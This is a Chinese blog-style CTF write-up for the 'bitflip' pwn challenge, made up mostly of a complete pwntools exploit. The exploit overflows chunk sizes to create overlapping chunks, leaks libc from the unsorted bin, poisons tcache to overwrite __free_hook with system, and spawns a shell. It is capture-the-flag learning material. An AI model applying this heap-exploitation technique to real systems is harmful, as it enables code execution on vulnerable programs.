 ```yaml
---
layout: post
title: "2021 拟态精英 pwn bitflip wp"
date:   2022-4-10
tags: [ctf_wp]
comments: true
author: wsxk
---
```


拟态的pwn题全是堆题，这道题关于tcache的利用，我觉得是比较好的


    #!/usr/bin/env python3

    from pwn import *

    exe = ELF("./bitflip_patched")
    libc = ELF("./libc-2.27.so")
    ld = ELF("./ld-2.27.so")

    context.binary = exe
    context.log_level="debug"
    io= process([ld.path,exe.path],env={"LE_PRELOAD":libc.path})

    def create(idx,size):
        io.sendlineafter("Your choice: ",str(1))
        io.sendlineafter("Index: ",str(idx))
        io.sendlineafter("Size: ",str(size))

    def edit(idx,content):
        io.sendlineafter("Your choice: ",str(2))
        io.sendlineafter("Index: ",str(idx))
        io.sendlineafter("Content: ",content)

    def show(idx):
        io.sendlineafter("Your choice: ",str(3))
        io.sendlineafter("Index: ",str(idx))

    def remove(idx):
        io.sendlineafter("Your choice: ",str(4))
        io.sendlineafter("Index: ",str(idx))

    for i in range(12): #这里多申请几个，因为0xc1太大了可能回覆盖到topchunk部分导致失败
        create(i,0x38)

    for i in range(8):
        edit(i,b"a"*0x38+b"\xc1")
    #gdb.attach(io)
    for i in range(8):
        remove(i+1)  # 7个在tcache，一个在unsorted bin

    create(12,0x38)  #因为堆机制，会切割unsortedbin中的块
    show(9)  #切割的原位置是8
    libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))-96-0x10-libc.sym['__malloc_hook']
    print(hex(libc.address))

    create(13,0x38) # 9 
    remove(13)  # 造成空指针
    edit(9,p64(libc.sym["__free_hook"])) #开始劫持free_hook
    create(14,0x38)
    create(15,0x38)
    edit(14,"/bin/sh")
    edit(15,p64(libc.sym["system"]))
    remove(14)
    #gdb.attach(io)
    io.interactive()




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>